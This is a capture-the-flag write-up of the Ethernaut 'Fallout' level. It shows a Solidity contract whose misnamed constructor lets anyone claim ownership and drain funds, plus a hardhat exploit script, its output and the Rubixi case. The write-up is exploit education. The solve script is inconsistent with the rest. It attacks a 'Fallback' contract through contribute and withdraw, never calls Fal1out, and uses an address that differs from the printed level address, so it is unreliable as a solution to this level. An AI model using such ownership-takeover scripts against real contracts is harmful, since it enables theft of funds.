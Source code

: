 ```yaml
---
title: Ethernaut #02 Fallout
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Fallout challenge writeup
---
```


## Fallout

### Challenge

Claim ownership of the contract below to complete this level.

  Things that might help

* Solidity Remix IDE


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

### Background

So I will be skipping the Remix IDE since I'm using hardhat.

### Attack

Again solving this is pretty straight forward. The only difficulty is to realize that the function `Fal1out` that has a comment about being the constructor, is not actually the constructor, which means its functionality can be invoked again, and thus take ownership of the contract.

* call `Fal1out` to become the owner
* call `collectAllocations` collect any funds

#### fallout-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    // get contract
    fallbackAddress = "0x253Acf9cFeB752D9A1ce78b808b292E4D91C2c46";
    contract = await ethers.getContractAt("Fallback", fallbackAddress);

    // get account
    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    // initial state
    console.log("Level address   : " + contract.address)
    console.log("Contract Owner  : " + await contract.owner())
    console.log("Contract Balance: " + await ethers.provider.getBalance(contract.address))

    // make small contribution
    tx = await contract.connect(account).contribute({ value: ethers.utils.parseEther("0.001") - 1 })
    receipt = await tx.wait()

    // call fallback function and become owner
    tx = await account.sendTransaction({
        to: contract.address,
        data: "0x",
        value: ethers.utils.parseEther("0.001")
    });
    receipt = await tx.wait()

    // withdraw contract funds
    tx = await contract.connect(account).withdraw()
    receipt = await tx.wait()

    // final state
    console.log("Contract Owner  : " + await contract.owner())
    console.log("Contract Balance: " + await ethers.provider.getBalance(contract.address))
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/fallout-solve.js --network rinkeby
Level address   : 0x96d93dde51Ed1aCeEDf9E8EEE72b4b85390Bca84
Contract Owner  : 0x0000000000000000000000000000000000000000
Contract Balance: 0
Contract Owner  : 0x11bAe9eA1851939a485f1F00b7B0Eec099e9276d
Contract Balance: 0
```

### Success Message

That was silly wasn't it? Real world contracts must be much more secure than this and so must it be much harder to hack them right?

Well... Not quite.

The story of Rubixi is a very well known case in the Ethereum ecosystem. The company changed its name from 'Dynamic Pyramid' to 'Rubixi' but somehow they didn't rename the constructor method of its contract:

```
contract Rubixi {
  address private owner;
  function DynamicPyramid() { owner = msg.sender; }
  function collectAllFees() { owner.transfer(this.balance) }
  ...
```

This allowed the attacker to call the old constructor and claim ownership of the contract, and steal some funds. Yep. Big mistakes can be made in smartcontractland.
